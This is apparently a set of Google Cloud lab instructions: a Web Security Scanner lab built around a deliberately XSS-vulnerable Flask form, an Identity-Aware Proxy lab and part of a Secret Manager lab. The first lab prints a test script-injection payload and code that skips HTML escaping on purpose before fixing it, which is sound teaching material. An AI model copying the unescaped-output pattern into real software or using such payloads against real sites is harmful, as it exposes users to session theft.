In this lab, you learn how to perform the following tasks:

- Launch a vulnerable Python Flask application on a Compute Engine instance.
- Use Web Security Scanner to scan the application and find vulnerabilities.
- Fix the application vulnerability.
- Scan the application again and verify vulnerabilities no longer exist.

### Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

### Scenario

​     


Cymbal Bank is an American retail bank with over 2,000 branches in all 50 states. It offers comprehensive debit and credit services that are built on top of a robust payments platform. Cymbal Bank is a digitally transforming legacy financial services institution.

Cymbal Bank was founded in 1920 under the name Troxler. Cymbal Group acquired the company in 1975 after it had been investing heavily in Cymbal Group's proprietary ATMs. As the bank grew into a national leader, they put strategic emphasis on modernizing the customer experience both in-person at their branches and digitally through an app they released in 2014. Cymbal Bank employs 42,000 people nationwide and, in 2019, reported $24 billion in revenue.

Cymbal Bank is interested in developing a new banking application for their corporate clients using Google Cloud technology. Application security is critical, and the CTO wants to see how Google Cloud can identify and mitigate application security vulnerabilities. As a Cloud Security Engineer, you are tasked with demonstrating Security Command Center's cutting-edge application vulnerability scanning features.

### Task 1. Launch a virtual machine and create a firewall rule for WSS

In this task, you set up the infrastructure to demonstrate an application vulnerability to Cymbal Bank's CTO. More specifically, you deploy a virtual machine and open a firewall rule for Web Security Scanner to be able to access the vulnerable application that you intend to deploy.

1. On the Google Cloud console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
2. Create a static IP address that can be used for scanning a vulnerable web application by running the following command:

```
gcloud compute addresses create xss-test-ip-address --region=europe-west4
```

Copied!

1. Run the following command to output the static IP address you just generated:

```
gcloud compute addresses describe xss-test-ip-address \
--region=europe-west4 --format="value(address)"
```

Copied!

1. Copy the IP address (a single line of the output) and save it in a notepad.
2. Run the following command to create a VM instance to run the vulnerable application:

```
gcloud compute instances create xss-test-vm-instance \
--address=xss-test-ip-address --no-service-account \
--no-scopes --machine-type=e2-micro --zone=europe-west4-a \
--metadata=startup-script='apt-get update; apt-get install -y python3-flask'
```

Copied!

The startup script installs python-flask, a Web Application Framework, which is used for running a simple Python application demonstrating cross-site scripting (XSS) vulnerability, which is a common web application security vulnerability.

1. Run the following command to open a firewall rule for Web Security Scanner to access a vulnerable application. Note the source ranges from which Web Security Scanner scans applications.

```
gcloud compute firewall-rules create enable-wss-scan \
--direction=INGRESS --priority=1000 \
--network=default --action=ALLOW \
--rules=tcp:8080 --source-ranges=0.0.0.0/0
```

Copied!

Click **Check my progress** to verify the objective.

Create the VM with desired configurations


Check my progress


### Task 2. Deploy a vulnerable application to trigger an XSS vulnerability

In this task, you obtain the application code and introduce a vulnerability for Web Security Scanner to detect. This is in the form of an application, which is a simple form that receives a user's input and outputs it without any changes.

1. In the Cloud console, on the **Navigation menu** (), click **Compute Engine** **>** **VM Instances**.

   This may take a minute to initialize for the first time.

2. Then click on the **SSH** button next to your instance:


1. A pop-up may appear, asking you to allow SSH in-browser to connect to VMs. Click **Authorize**.

This opens an SSH connection to your VM instance in a new window.

1. In this SSH window (***Not in Cloud Shell\***), run the following command to download and extract the vulnerable web application files:

```
gsutil cp gs://cloud-training/GCPSEC-ScannerAppEngine/flask_code.tar  . && tar xvf flask_code.tar
```

Copied!

1. Now run the following command to deploy your application:

```
python3 app.py
```

Copied!

1. Soon after, you should receive a message that indicates your application is up and running.

**Output:**

```
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:8080/ (Press CTRL+C to quit)
```

1. Find the static IP address of the VM you copied into your notepad earlier.
2. Replace `YOUR_EXTERNAL_IP` in the URL field below with that IP address, and open the URL in a new browser tab:

```
http://<YOUR_EXTERNAL_IP>:8080
```

Copied!

**Note:** You can also find the external IP address in the Google Cloud console, where it's listed as a field associated with your VM instance.

A Cymbal Bank corporate banking portal with a web form should appear.

1. In the web form, enter the following string:

```
<script>alert('This is an XSS Injection')</script>
```

Copied!

1. Now click the **POST** button.

You should receive the following alert window.


This is a common vulnerability in web applications: a cross-site scripting vulnerability. Cross-site scripting (XSS) is a vulnerability that enables attackers to run malicious scripts in users' browsers in the context of your application. Your browser interprets a string as a legitimate Javascript and executes it.

An attacker who uses an XSS bug to inject JavaScript into an HTML page gains virtually unlimited access to the logged-in sessions of the victims who visit the page: they may steal user data, tamper with it, change privacy or security settings, or even completely alter the way the product looks and operates. Even more, an XSS vulnerability in one application, no matter how inconsequential, may jeopardize other content within the same domain.

This is one of many application vulnerabilities that Web Security Scanner can help you identify.

Click **Check my progress** to verify the objective.

Download vulnerable web application files on the VM


Check my progress


### Task 3. Enable the Web Security Scanner API

Now that the vulnerable application is launched, it's time to demonstrate Web Security Scanner's abilities to the CTO. But first, you need to configure the API that WSS uses to run.

1. Switch back to the Cloud console browser tab.
2. From the **Navigation menu** (), select **APIs & Services** **>** **Library**.
3. In the Search for APIs and services field, type `Web Security Scanner` and press **Enter**.
4. Select the **Web Security Scanner API**.
5. Click **Enable** to enable the Web Security Scanner API.

Click **Check my progress** to verify the objective.

Enable the Web Security Scanner API


Check my progress


### Task 4. Scan the deployed application with WSS

In this task, you configure and set up a scan of the application to check if it finds security vulnerabilities.

1. Open the **Navigation menu** (), and select **Security** **>** **Web Security Scanner**.
2. Click **+ New Scan**.
3. In the **Starting URLs** section, the **Starting URL 1** field should be pre-populated with your static IP address.
4. Add the port number **8080**, so that the Starting URL resembles the following:

```
  http://<EXTERNAL_IP>:8080
```

Copied!

1. If present, delete **Starting URL 2**.
2. Take a minute to review the remaining fields on the **Create a new scan** screen:

- **Authentication:** a property that can be used to provide application credentials to allow the scanner to authenticate to an app while scanning.
- **Schedule:** a property that can be used to schedule scans to run automatically.
- **Export to Security Command Center:** a property that allows you to automatically export scan configurations and scan results to Cloud Security Command Center after scans are finished.

1. Verify the **Authentication** is still set to **None** and that **Schedule** is set to **Never**.
2. Click **Show More** to investigate the remaining settings.
3. Click **Save** to create the scan.

**Note:** This creates the scan, but do not run it yet. It must currently be run manually since you did not create a schedule yet.

1. Click **Run** to start the scan

**Note:** Given the number of possible tests, this can take a little over **10 minutes** to scan.

1. Return to your SSH session in your separate browser window.

If the session timed out, run the following command to restart your application:

```
python3 app.py
```

Copied!

In your SSH Window, you should start to see logs generated similar to the example below—this is Web Security Scanner testing all possible URLs for potential vulnerabilities.

**Output:**

```
34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -
35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -
35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -
35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -
35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
```

You may see log statements with the following HTTP status codes:

- **200:** A successful request, where the HTTP server answered with an OK response.
- **302:** Indicates a resource is temporarily located elsewhere according to the Location header.
- **404:** indicates that one or more resources were not found.

Check out the [HTTP Status and Error Codes](https://cloud.google.com/storage/docs/json_api/v1/status-codes#standardcodes) documentation for more information.

While the scan is running, feel free to explore the **Results**, **URLs Crawled**, and **Details** tabs. You can also check out this [getting started video](https://www.youtube.com/watch?v=1BengAd2_cI), or this [vulnerability scanning video](https://www.youtube.com/watch?v=ai5Hr5zkn50) to learn more about Web Security Scanner.

1. When the scan is done running, the **Results** tab should indicate the cross-site vulnerabilities.


The Web Security Scanner was able to scan all starting URLs and detect the XSS vulnerabilities in Cymbal Bank's application. The ability to automate the detection of these critical vulnerabilities is a major benefit for security-minded organizations like Cymbal Bank.

Click **Check my progress** to verify the objective.

Run a Web Security Scanner scan and detect application vulnerabilities


Check my progress


### Task 5. Correct the vulnerability and scan again

Now that you have demonstrated Web Security Scanner can detect a XSS vulnerability, you remediate the vulnerability and run the application scan again.

1. Return to your SSH window that's connected to your VM instance.
2. Stop the running application by pressing **CTRL + C**.
3. Edit the **app.py** file using the nano editor by running the following command:

```
nano app.py
```

Copied!

1. Locate the two lines that set the output string:

```
#  output_string = "".join([html_escape_table.get(c, c) for c in input_string])
  output_string = input_string
```

Copied!

1. Remove the `#` symbol from the first line and add it to the beginning of the next line (*ensure that you indent your code properly!*)

Your final lines must resemble the following:

```
@app.route('/output')
def output():
  output_string = "".join([html_escape_table.get(c, c) for c in input_string])
  # output_string = input_string
  return flask.render_template("output.html", output=output_string)
```

Copied!

**Note:** `html_escape_table` is a dictionary that contains one-to-one pairings of special HTML characters like "<" to their text representation. You use this table to escape special HTML characters so your form ingests and interprets submissions as raw text only. You can refer to this [What is HTML Escape?](https://www.lambdatest.com/free-online-tools/html-escape#:~:text=What is HTML Escape%3F,HTML entities to plain text) documentation for more information.

1. Now type **CTRL+X**, **Y**, and **Enter** to save your changes.
2. Re-run the application:

```
python3 app.py
```

Copied!

1. Return to the Google Cloud console browser tab (you should still have the Web Security Scanner page open):
2. Click **Run** at the top of the page.

In your SSH Window, you should start to see logs where Web Security Scanner tests application URLs for potential vulnerabilities.

**Output:**

```
34.29.3.21 - - [23/Mar/2023 23:30:41] "GET /output HTTP/1.1" 200 -
35.184.129.44 - - [23/Mar/2023 23:31:06] "GET /output HTTP/1.1" 200 -
35.184.129.44 - - [23/Mar/2023 23:31:07] "GET /favicon.ico HTTP/1.1" 404 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "POST / HTTP/1.1" 302 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /output HTTP/1.1" 200 -
34.68.231.45 - - [23/Mar/2023 23:31:09] "GET /favicon.ico HTTP/1.1" 404 -
35.184.129.44 - - [23/Mar/2023 23:31:17] "POST / HTTP/1.1" 302 -
35.184.129.44 - - [23/Mar/2023 23:31:17] "GET /output HTTP/1.1" 200 -
```

1. While you are waiting for the results of the scan, login to the URL `http://<EXTERNAL_IP>:8080` using your browser in a separate tab.

   The web form displays once again.

2. In the web form, enter the same string that you entered in before:

```
<script>alert('This is an XSS Injection')</script>
```

Copied!

1. Now click the **POST** button.
2. Verify that this time you receive the following string in the browser:


**Note:** Although this technique works in this simple scenario, for proper protection of your web application you need to use more advanced techniques and frameworks which are out of scope of this lab.


Explore the links below for more resources:

- [Angular Security](https://angular.io/guide/security)
- [Google XSS Game](https://xss-game.appspot.com/)
- [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)

1. Return to the Google Cloud console, where you left off on the Web Security Scanner page.
2. Click **Run** at the top of the page to re-scan your application.
3. Soon after, you should notice that the results yield no more XSS vulnerabilities.


Click **Check my progress** to verify the objective.

Correct vulnerabilities and rescan your application using Web Security Scanner


Check my progress


### Congratulations!

You have successfully demonstrated to the Cymbal Bank CTO how to identify and remediate XSS vulnerabilities with Google Cloud's powerful Web Security Scanner solution.


## LAB - Securing Compute Engine Applications with BeyondCorp Enterprise


## Overview

In this lab, you secure Compute Engine workloads using [BeyondCorp Enterprise’s Identity-Aware Proxy (IAP)](https://cloud.google.com/iap) to restrict traffic based on identity.

IAP is a feature of [BeyondCorp Enterprise](https://cloud.google.com/beyondcorp-enterprise), Google Cloud's zero-trust solution that enables an organization's workforce to access web applications securely from anywhere, without the need for VPN and without fear of malware, phishing, and data loss.

This lab provisions a web-based integrated development environment (IDE) that you will restrict access to by enabling zero-trust configuration.

## Objectives

In this lab, you learn how to perform the following tasks:

- Configure OAuth Consent.
- Set up OAuth access credentials.
- Set up IAP access for the deployed application.
- Use IAP to restrict access to the application.

## Setup and requirements

#### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left. 

### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - <myaccount>@<mydomain>.com (active)
</mydomain></myaccount>
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = <project_id>
</project_id>
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

## Task 1. Create a Compute Engine template

In this task you create an instance template. This is a resource that you use to create virtual machine (VM) instances and managed instance groups (MIGs).

1. In the Google Cloud console, in the **Navigation menu** (), click **Compute Engine > Instance templates**.
2. Click **Create Instance Template**.
3. On the **Create an instance template** page, specify the following, and leave the remaining settings as their defaults:

| Property                       | Value                       |
| :----------------------------- | :-------------------------- |
| Location                       | **Global**                  |
| Series                         | **E2**                      |
| Machine type                   | **e2-micro (2 vCPU)**       |
| Access scopes                  | **Set access for each API** |
| Access scopes > Compute Engine | **Read Only**               |
| Firewall                       | **Allow HTTP traffic**      |

1. Click **Advanced options**.
2. Click **Management**.
3. In **Automation > Startup script**, copy and paste the following script:

```
# Copyright 2021 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.# You may obtain a copy of the License at
#
# http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

sudo apt-get -y update
sudo apt-get -y install git
sudo apt-get -y install virtualenv
git clone https://github.com/GoogleCloudPlatform/python-docs-samples
cd python-docs-samples/iap
virtualenv venv -p python3
source venv/bin/activate
pip install -r requirements.txt
cat example_gce_backend.py |
sed -e "s/YOUR_BACKEND_SERVICE_ID/$(gcloud compute backend-services describe my-backend-service --global --format="value(id)")/g" |
    sed -e "s/YOUR_PROJECT_ID/$(gcloud config get-value account | tr -cd "[0-9]")/g" > real_backend.py
gunicorn real_backend:app -b 0.0.0.0:80
```

Copied!

1. Click **Create**.

It takes a few moments to create your instance template.

## Task 2. Create a managed instance group

In this task you create a managed instance group (MIG), a collection of virtual machine (VM) instances that you manage as a single entity.

1. In the Google Cloud console, in the **Navigation menu** (), click **Compute Engine > Instance groups**.
2. Click **Create Instance Group**.
3. Click **New managed instance group (stateless)** from the left-hand menu.
4. On the **New managed instance group (stateless)** page, specify the following, and leave the remaining settings as their defaults:

| Property                       | Value                                                        |
| :----------------------------- | :----------------------------------------------------------- |
| Name                           | **my-managed-instance-group**                                |
| Instance template              | Select the instance template you created in Task 1.          |
| Location                       | **Multiple zones**                                           |
| Region                         | **us-central1 (Iowa)**                                       |
| Autoscaling > Autoscaling mode | **Off: do not autoscale**                                    |
| Number of instances            | To change the number of instances, you must first turn off autoscaling; see below. When this is done, set the maximum number value to **3**. |

**Note:** Do not forget to set the number of instances after you change the autoscaling mode.

1. Click **Create**.

It will take a few minutes to create the MIG.

## Task 3. Create a Google Cloud self-managed SSL certificate resource

In this task you create a private key, a certificate, and then a self-managed SSL certificate resource. Before you can create a Google Cloud SSL certificate resource, you must have a private key and certificate.

A [Google Cloud SSL certificate](https://cloud.google.com/load-balancing/docs/ssl-certificates/google-managed-certs) includes both a private key and the certificate itself, both in PEM format.

Self-managed SSL certificates are certificates that you obtain, provision, and renew yourself. You use this resource to secure communication between clients and your load balancer, which you create in the next task.

### Create a private key and certificate

1. On the Google Cloud console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
2. To create a new private key with RSA-2048 encryption in the PEM format [OpenSSL](https://www.openssl.org/docs/), run the following command:

```
openssl genrsa -out PRIVATE_KEY_FILE 2048
```

Copied!

#### Create a CSR

Generate a certificate signing request (CSR) in the PEM format using [OpenSSL](https://www.openssl.org/source/).

1. Click **Open Editor**. If prompted, click **Open in a new window**.
2. In Cloud Shell Editor, click the menu and select **File > New File**.
3. For the filename, type **ssl_config**, and press enter.
4. Ensure the create file location is shown as /home > student-XX-XXXXXXXXX/ssl_config and then click **OK**.
5. Copy and paste the following configuration into the **Cloud Editor** window:

```
[req]
default_bits = 2048
req_extensions = extension_requirements
distinguished_name = dn_requirements
prompt = no

[extension_requirements]
basicConstraints = CA:FALSE
keyUsage = nonRepudiation, digitalSignature, keyEncipherment

[dn_requirements]
countryName = US
stateOrProvinceName = CA
localityName = Mountain View
0.organizationName = Cloud
organizationalUnitName = Example
commonName = Test
```

Copied!

1. Click the menu and select **File > Save**.
2. Return to the previous tab. You may have to click **Open Terminal** to resume your **Cloud Shell** session.
3. To create a certificate signing request (CSR) file, run the following OpenSSL command:

```
openssl req -new -key PRIVATE_KEY_FILE \
 -out CSR_FILE \
 -config ssl_config
```

Copied!

#### Sign the CSR

When a Certificate Authority (CA) signs your CSR, it uses its own private key to create a certificate.

- To create a self-signed certificate for testing, run the following OpenSSL command:

```
openssl x509 -req \
 -signkey PRIVATE_KEY_FILE \
 -in CSR_FILE \
 -out CERTIFICATE_FILE.pem \
 -extfile ssl_config \
 -extensions extension_requirements \
 -days 365
```

Copied!

### Create a self-managed SSL certificate resource

Before you can create a Google Cloud SSL certificate resource, you must have a private key and certificate.

1. To create a global SSL certificate, use the [`gcloud compute ssl-certificates create`](https://cloud.google.com/sdk/gcloud/reference/compute/ssl-certificates/create) command with the `--global` flag:

```
gcloud compute ssl-certificates create my-cert \
 --certificate=CERTIFICATE_FILE.pem \
 --private-key=PRIVATE_KEY_FILE \
 --global
```

Copied!

1. In the **Authorize Cloud Shell** prompt, click **Authorize**.

## Task 4. Create a load balancer

In this task you create a load balancer. HTTP(S) Load Balancing is implemented on Google Front End (GFE). GFEs are distributed globally and operate together using Google's global network and control plane.

To set up a load balancer, your VMs must be in an instance group, which you created in the previous tasks.

1. In the Google Cloud console, in the **Navigation menu** (), click on **View All Products** and click **Network services > Load balancing**.
2. Click **Create Load Balancer**.
3. Under **Application Load Balancer (HTTP/S)**, click **Next**.
4. Under **Under Public facing or internal only**, select **Public facing (external)**, click **Next**.
5. Under **Global or single region deployment**, select **Best for global workloads**, click **Next**.
6. Under **Load balancer generation**, select **Global external Application Load Balancer**, click **Next**.
7. Click **Configure**.
8. For **Load Balancer Name**, type **my-load-balancer**.
9. Click **Backend Configuration** > **Backend services & backend buckets > Create a Backend Service**.
10. On the **Create backend service** panel, for **Name**, type **my-backend-service**.
    You must use the exact name *my-backend-service*. If you use a different name, the startup script on your VMs won't be able to find the correct Backend Service ID to authenticate requests.
11. In **New backend**, specify the following, and leave the remaining settings as their defaults:

| Property       | Value                         |
| :------------- | :---------------------------- |
| Instance group | **my-managed-instance-group** |
| Port Numbers   | **80**                        |

1. Uncheck **Enable Cloud CDN**.
2. In **Health check**, click **Create a Health Check**.
3. For **Name**, type **my-health-check**.
4. For **Protocol**, select **HTTP**.
5. Click **Save**.
6. Click **Create**.

The Create global external Application Load balancer pane reappears.

1. Click **Frontend configuration**. Specify the following, and leave the remaining settings as their defaults:

| Property    | Value                                                      |
| :---------- | :--------------------------------------------------------- |
| Protocol    | **Https (includes HTTP/2 and HTTP/3)**                     |
| IP address  | Click **Ephemeral**, and then select **Create IP address** |
| Name        | Type **static-ip**, and then click **Reserve**.            |
| Certificate | **my-cert**                                                |

1. Click **Done**.

The Create global external Application Load balancer pane reappears.

1. In **Create global external Application Load Balancer**, click **Create**.

The **Load balancing** page appears and your new load balancer will be created in the list of load balancers.

1. When the Cloud console finishes creating the new load balancer, click the name of the load balancer and note the external IP address under **Details > Frontend**. You will need it in task 7.

## Task 5. Restart your VMs

In this task you restart the VMs in your MIG so that they can correctly authenticate requests from IAP.

1. In the Google Cloud console, in the **Navigation menu** (), click **Compute Engine > Instance groups**.
2. Click **my-managed-instance-group**.
3. Click **Restart/Replace VMs**.
4. For **Operation**, click **Restart**.
5. For **Instances**, type **3**
6. For **Minimum wait time**, type **0**
7. Click **Restart VMs**.

## Task 6. Set up IAP

### Configure your firewall

In this task you configure your firewall to block access to the underlying VMs and only allow access through IAP.

1. In the Google Cloud console, in the **Navigation menu** (), click **VPC network > Firewall**.
2. Select the **default-allow-internal** checkbox.
3. Click **Delete**, and then select **Delete** to confirm it.
4. Click **Create Firewall Rule**. Specify the following, and leave the remaining settings as their defaults:

| Property            | Value                                                        |
| :------------------ | :----------------------------------------------------------- |
| Name                | **allow-iap-traffic**                                        |
| Targets             | **All instances in the network**                             |
| Source IPv4 ranges  | **130.211.0.0/22, 35.191.0.0/16** (Press **Enter** after you paste each value in the box) |
| Protocols and ports | **Specified protocols and ports**                            |
| TCP                 | **80**                                                       |

1. Click **Create**.

### Set up IAP

In this step you set up IAP for your project.

1. In the Google Cloud console, in the **Navigation menu** (), click **Security > Identity-Aware Proxy**.
2. Click **Enable API**.
3. Click **Go to Identity Aware Proxy**.
4. Click **Configure Consent Screen**.

**Caution:** Don't enter any confidential information on the OAuth consent screen. Any information you save to the OAuth consent screen may be publicly visible for anyone who accesses your URL. Email and product details are displayed on the login screen and when someone tries to access a resource for which they don't have permission.

1. In **User Type**, select **External** , and then click **Create**.
2. In **App name** , type **IAP**.
3. In **User support email**, select the student account. This has the value of **student-00-\*********@qwiklabs.net**.
4. For **Developer contact information**, copy and paste the student account **Username** from the lab window. This matches the value in the previous step.
5. Click **Save and Continue** three times, and then select **Back to Dashboard**.

To change information on the OAuth consent screen later, such as the product name or email address, repeat the preceding steps to configure the consent screen.

1. In the Google Cloud console, in the **Navigation menu** (), click **Security > Identity-Aware Proxy**.
2. Next to **my-backend-service**, toggle the **on/off** switch in the **IAP** column.
3. In the **Turn on IAP** dialog, select the checkbox to confirm you have read the configuration requirements.
4. Click **Turn On**.

**Note:** If you see an error, click on the error. If you are then prompted to add a firewall rule, edit the rule you created previously to include the port number mentioned in the error.


Confirm that OAuth Consent has been set up.


Check my progress


### Add principals to the access list

In this step you add principals to the IAP access list for your project.

1. In **Identity-Aware Proxy**, select the **my backend-service** checkbox.
2. Click **Add Principal**.
3. To grant access to yourself, in **New Principals**, copy and paste your qwiklabs **Username** from the lab credentials pane.
4. Select the Role of **Cloud IAP > IAP-secured Web App User**.
5. Click **Save**.

Confirm principal to access the application by configuring IAM.


Check my progress


## Task 7. Test IAP

In the task, you run a curl command to test access your external load balancer, and then verify that it is protected by IAP.

1. In the Google Cloud console, in the **Navigation menu** (), click on **View All Products** and click **Network services > Load balancing**.
2. Click **Frontends**.
3. On the Google Cloud console title bar, click **Activate Cloud Shell** (). If prompted, click **Continue**.
4. Run the following curl command, replacing **Load Balancer External IP address** with the External IP address of your load balancer:

```
curl -kvi https://<Load Balancer External IP address>
```

Copied!

**Note:** If an IAP generated response that is true is displayed, you have successfully configured IAP for your Compute Engine instance.


1. Scroll up the console page and locate the **Http/2 302** redirection to accounts.google.com.
2. Click on the **location** link.

The link opens to the **Google account integrated authentication** page.


**Note:** Because you used a self-signed cert, you cannot access the application itself. However, this confirms that IAP is configured and is protecting traffic.

Confirm restrict access with IAP.


Check my progress


## Congratulations!

You have successfully used IAP to secure a web application running on a Compute Engine instance.

In this lab, you learned how to:

- Create an instance template.
- Create an instance group.
- Create a self-signed certificate.
- Create a load balancer.
- Configure an Oauth consent screen.
- Grant access to the application using IAP.


## LAB - Configuring and Using Credentials with Secret Manager

## Overview

In this lab, you use [Secret Manager](https://cloud.google.com/secret-manager/docs/quickstart) from Cloud Console and the Command Line Interface (CLI) to create and use a secret, replace a secret, and finally, reinstate an older version of a secret.

Secret Manager is available in Cloud Console. It is also available from the command line using the CLI or from a program, using the REST API or one of the supported Software Development Kits (SDKs). Supported SDKs include C#, Go, Node.js, Java, etc. A complete list of available [SDKs](https://cloud.google.com/secret-manager/docs/reference/libraries). Information regarding the [REST API](https://cloud.google.com/secret-manager/docs/reference/rest).

## Objectives

In this lab, you learn to:

- Enable the Secret Manager API.
- Create and use a new secret.
- Create a new version of a secret, and disable the old version(s).
- Reinstate and verify an older version of a secret.

## Setup and requirements

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

## Task 1. Enable the Secret Manager API

In this task, you enable the Secret Manager API.

Before you access Secret Manager, you must first enable its API. If you fail to do so, when you attempt to access its features, you will receive an error.

1. In the **Navigation menu**, Select **API & Services**.
2. At the top of the page, click **+ Enable API and Services**.
3. In the search box, enter `Secret Manager`. You should see one result - the Secret Manager API.
4. Click **Secret Manager API**. On the resulting page, click **Enable**. If no error occurs - and you see a page with information about this API, you were successful.

Click *Check my progress* to verify the objective.

Enable the Secret Manager API


Check my progress


## Task 2. Create a secret

In this task, you create a secret and add the secret value to the password.

1. In the **Navigation menu**, select **Security > Secret Manager**.
2. On the Secret Manager main page, click **+ Create Secret**.
3. For the **Name**, enter `password`.
4. For the **Secret value**, enter `xyzpdq`.
5. Click **+ Add Label**.
6. For the **Key**, enter `team`.
7. For the **Value**, enter `acme`.
8. Leave all other values at their default setting, and click **Create Secret**.

Click *Check my progress* to verify the objective.

Create a secret


Check my progress


## Task 3. Use a secret

In this task, you use the secrets command to verify the value of the password secret.

1. On the Google Cloud Console title bar, click **Activate Cloud Shell** () to open Cloud Shell.
2. At the bottom of the page, click **Continue**. Wait for the Google Cloud Shell machine to provision.
3. At the Cloud Shell Terminal command line, enter:

```
gcloud secrets versions access 1 --secret="password"
```

Copied!

If successful, you should see that the value of the password secret (`xyzpdq`) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown below:

```
student_00_7413964b6ab0@cloudshell:~ (qwiklabs-gcp-00-f575f732b85b)$ gcloud secrets versions access 1 --secret="
password"
xyzpdqstudent_00_7413964b6ab0@cloudshell:~ (qwiklabs-gcp-00-f575f732b85b)$
```

## Task 4. Create and use a new secret version

In this task, you create a new version 2 secret and use the secrets command to verify the version 2 value of the password secret.

1. In the **Navigation menu** of Google Cloud Console, select **Security > Secret Manager**. The Secret Manager page shows information about the password secret that you created earlier.
2. Under **Actions**, click the More actions menu (i.e., the “three dots” menu) and then click **Add New Version**.
3. For the **Secret value**, enter `abc123`.
4. Leave all other values at their default setting, and click **Add New Version**.

Now, let's use the new secret.

1. At the Cloud Shell Terminal command line, enter:

```
gcloud secrets versions access 2 --secret="password"
```

Copied!

1. If successful, you should see that the value of the password secret (`abc123`) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:

```
student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access 1 --secret="password"
abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
```

1. At the command line, try the command again - except this time, for the version, use the latest alias, as shown below:

```
gcloud secrets versions access latest --secret="password"
```

Copied!

If successful, you should see that the version 2 value of the password secret (`abc123`) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:

```
